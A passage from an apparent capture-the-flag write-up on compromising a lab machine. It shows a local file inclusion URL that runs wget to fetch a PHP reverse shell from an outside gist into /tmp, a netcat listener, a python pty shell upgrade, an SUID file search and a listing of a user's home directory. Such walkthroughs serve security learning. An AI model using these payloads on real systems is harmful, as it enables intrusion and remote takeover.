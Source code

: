 But it failed, because the whole `/var/www/` directory is owned by root and www-data doesn't have the write access there. www-data can write to `/tmp/` directory, so we'll put the PHP reverse shell there.


```
http://192.168.0.110/view.php?page=../../../../../../usr/databases/cmd.php&cmd=wget%20https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php%20-O%20/tmp/php-reverse-shell.php
```

I started `netcat` to listen for connection from PHP reverse shell.

```
$ nc -lnvp 1234
```

Then, I accessed PHP reverse shell from browser to get the...well, reverse shell.

```
http://192.168.0.110/view.php?page=../../../../../../tmp/php-reverse-shell.php
```

I already got the reverse shell on `netcat`. Now, I execute this for a proper TTY shell.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

### Escalating Our Privilege

Both the passwords for root and zico we got on phpLiteAdmin doesn't work for us to `su` to their accounts. So we'll need to find another way to get the flag.

I started by listing SUID files to exploit.

```
$ find / -perm -4000 -type f 2>/dev/null
```

But there doesn't seem to be anything useful.

I went to `/home/zico` directory and found a file called `to_do.txt`.

```
$ ls -alh
total 9.1M
drwxr-xr-x  6 zico zico 4.0K Jun 19 12:04 .
drwxr-xr-x  3 root root 4.0K Jun  8 17:58 ..
-rw-------  1 zico zico  912 Jun 19 12:09 .bash_history
-rw-r--r--  1 zico zico  220 Jun  8 17:58 .bash_logout
-rw-r--r--  1 zico zico 3.5K Jun  8 17:58 .bashrc
-rw-rw-r--  1 zico zico 493K Jun 14 18:14 bootstrap.zip
drwxrwxr-x 18 zico zico 4.0K Jun 19 12:02 joomla
-rw-r--r--  1 zico zico  675 Jun  8 17:58 .profile
drw-------  2 zico zico 4.0K Jun  8 18:18 .ssh
drwxrwxr-x  6 zico zico 4.0K Aug 19  2016 startbootstrap-business-casual-gh-pages
-rw-rw-r--  1 zico zico   61 Jun 19 12:04 to_do.txt
-rw-------  1 zico zico 3.5K Jun 19 12:04 .viminfo
drwxr-xr-x  5 zico zico 4.0K Jun 19 12:03 wordpress
-rw-rw-r--  1 zico zico 8.5M Jun 19 11:52 wordpress-4.8.zip
-rw-rw-r--  1 zico zico 1.2K Jun  8 18:34 zico-history.tar.gz
```
